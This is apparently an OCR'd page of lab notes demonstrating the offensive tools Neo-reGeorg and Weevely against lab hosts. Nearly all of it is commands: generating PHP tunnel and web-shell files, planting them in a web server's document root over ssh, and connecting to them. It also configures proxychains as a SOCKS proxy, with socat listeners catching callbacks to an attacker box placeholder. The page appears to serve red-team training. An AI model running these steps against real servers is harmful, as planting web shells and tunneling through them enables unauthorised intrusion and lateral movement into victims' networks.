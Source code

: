 



## Neo-reGeorg

```
[[ NeoreGeorg~Demo ]]*
cd tools/Neo-reGeorg
./neoreg.py generate -k password
cat neoreg_servers/tunnel.php | ssh -o StrictHostKeyChecking=no root@lamp 'cat - |sudo tee /var/www/html/tunnel.php'

./neoreg.py -k password -u http://lamp/tunnel.php --php -vvv
```

```
[[ NeoreGeorg~CallMe ]]*
sudo sed -i '/^socks/Ic\socks5 127.0.0.1 1080' /etc/proxychains4.conf
tail /etc/proxychains4.conf
	#make sure it says socks5 127.0.0.1 1080

lsof -i tcp:4444
	socat -u tcp-listen:4444,reuseaddr,fork open:/tmp/PROOF,create,append &

cat /tmp/PROOF
proxychains -q callMe.sh linux 80 <ATTACK_BOX_IP> 4444 tcp
cat /tmp/PROOF
	#Notice we got a callback through our socks proxy
```


## Weevely

```
[[ Weevely~Demo ]]*
cd tools/weevely
./weevely.py generate password ./weevely.php
cat weevely.php | ssh root@lamp 'cat - |sudo tee /var/www/html/weevely.php'
./weevely.py http://lamp/weevely.php password
    #You are now dropped into a pretty cool shell.  Lots of functionality here, but we will only focus on the web proxying
:net_proxy
```

```
[[ Weevely~CallMe ]]
lsof -i tcp:4444
	socat -u tcp-listen:4444,fork open:/tmp/PROOF,create,append &
cat /tmp/PROOF


lsof -i tcp:8080
    #Lets make sure our http proxy is working correctly

cat /tmp/PROOF
curl  -x http://127.0.0.1:8080 "http://linux:80/send-packet"  -H 'Content-Type: application/json' --data-raw '{"ip":"'kali'","port":"'4444'","protocol":"'tcp'"}'
    #I tried fixing this up with proxychains and callMe.sh, but I got some errors.  This is sufficient to demonstrate we can proxy through with Weevely.
cat /tmp/PROOF
```
